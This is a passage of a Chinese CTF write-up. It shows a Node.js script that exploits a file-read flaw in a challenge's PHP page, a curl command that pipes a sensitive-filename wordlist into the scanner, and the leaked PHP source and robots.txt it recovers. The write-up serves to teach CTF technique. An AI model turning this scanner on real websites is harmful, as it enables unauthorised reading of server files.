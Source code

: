 ```javascript
    const $ = cheerio.load(body)
    return {
      filename,
      content: base64.decode($('img').attr('src').slice('data:image/gif;base64,'.length) || ''),
    }
  }

  function isHit (response) {
    return !!response.content
  }

  let filenames = (await getStdin())
    .split('\n')
    .map((s) => s.trim())
    .filter(Boolean)

  let hits = await scan(filenames, { fetch, isHit })
  process.stdout.write(JSON.stringify(hits, null, 2))
})()
```

然后从 GitHub 找一个 [敏感文件名字典](https://github.com/SwiftieTerrence/ctfwebscan/blob/master/dic.txt)，开始扫描：

```sh
curl -s https://raw.githubusercontent.com/SwiftieTerrence/ctfwebscan/a64f510/dic.txt | node ./scan.js
```

扫描结果：
```json
[
  {
    "filename": "index.php",
    "content": "<?php\r\n/*\r\n * https://blog.csdn.net/FengBanLiuYun/article/details/80616607\r\n * Date: July 4,2018\r\n */\r\nerror_reporting(E_ALL || ~E_NOTICE);\r\n\r\n\r\nheader('content-type:text/html;charset=utf-8');\r\nif(! isset($_GET['jpg']))\r\n    header('Refresh:0;url=./index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09');\r\n$file = hex2bin(base64_decode(base64_decode($_GET['jpg'])));\r\necho '<title>'.$_GET['jpg'].'</title>';\r\n$file = preg_replace(\"/[^a-zA-Z0-9.]+/\",\"\", $file);\r\necho $file.'</br>';\r\n$file = str_replace(\"config\",\"!\", $file);\r\necho $file.'</br>';\r\n$txt = base64_encode(file_get_contents($file));\r\n\r\necho \"<img src='data:image/gif;base64,\".$txt.\"'></img>\";\r\n/*\r\n * Can you find the flag file?\r\n *\r\n */\r\n\r\n?>\r\n"
  },
  {
    "filename": "robots.txt",
    "content": "excuse me?\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\nflag{False flag}\r\n"
  }
]
```
